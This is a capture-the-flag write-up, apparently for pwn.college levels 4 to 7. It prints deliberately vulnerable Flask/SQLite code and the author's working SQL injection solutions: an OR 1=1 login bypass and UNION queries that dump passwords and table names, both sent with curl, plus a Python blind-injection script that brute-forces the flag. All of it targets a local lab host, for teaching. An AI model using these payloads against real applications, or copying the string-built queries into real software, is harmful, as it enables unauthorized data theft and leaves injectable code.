 # SQL Injection Vulnerabilities

## Level 4 - SQL Injection

Code for this level:

```python
def level4():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```

This time, the user is stored in a `session` so we can't send it. Instead, we want to exploit the fact that the `username` and `password` are used to form the SQL string for authenticating the user. I want to change it to something like this;

```sql
SELECT rowid, * FROM users WHERE username = "flag" AND password = "" OR 1=1 --"
```

To do this, I use `curl` to login,

```sh
curl -v -c cookies.dat --data "username=flag" --data "password=%22 OR 1=1 --" -X POST http://challenge.localhost:80
```

Then I pull the session cookie out and follow the redirect,

```sh
curl -v -b session=eyJ1c2VyIjoxfQ.ZnCLHA.yyxgmZ5gotlukXOhlRf99GfV4RU http://challenge.localhost:80
```

## Level 5 - SQL injection using UNION

The code for this level,

```python
def level5():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM users WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```

In this case, I want to take advantage of the `query` parameter to create a SQL statement,

```sql
SELECT username FROM users WHERE username LIKE "" UNION SELECT password FROM users --"
```

I form this in `curl`,

```sh
curl -v http://challenge.localhost:80?query=%22%20UNION%20SELECT%20password%20FROM%20users%20--
```

## Level 6 - SQL injection with an unknown schema

```python
def level6():
    table_name = f"table{hash(flag) & 0xFFFFFFFFFFFFFFFF}"
    db.execute((f"CREATE TABLE IF NOT EXISTS {table_name} AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM {table_name} WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```

Once again, use a UNION but this time to list tables, `SELECT name FROM sqlite_master`,

```sh
curl -v http://challenge.localhost:80?query=%22%20UNION%20SELECT%20name%20FROM%20sqlite_master%20--
```

This gives me the table name `table13213357520839709907` which I can use like in level 5,

```sh
curl -v http://challenge.localhost:80?query=%22%20UNION%20SELECT%20password%20FROM%20table13213357520839709907%20--
```

## Level 7 - Blind SQL injection

In a blind SQL injection, you must infer the data based on side effects in the web application. In this case, I create a SQL Injection attack that looks for passwords like `pwn.college{%`. If I can log in, the password that I have so far is correct, if I can't, then it is incorrect. I can then loop through all the possible characters to find each character in the password.

```python
#!/usr/bin/env python3

import requests
import json

flag = 'pwn.college{'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

while True:
    # Loop from space to tilde ~
    for c in range(32, 127):
        # skip * and ? from the glob
        if c == 42 or c == 63:
            continue

        char = chr(c)

        data = {
            'username': 'flag',
            'password': f"\" OR password GLOB '{flag}{char}*' --"
        }
        r = requests.post('http://challenge.localhost:80', headers=headers, data=data)

        # Check the response
        if r.status_code == 200:
            flag += char
            print(flag)
            break

    if flag[-1] == '}':
        break

print("Pwn'd the flag")
```
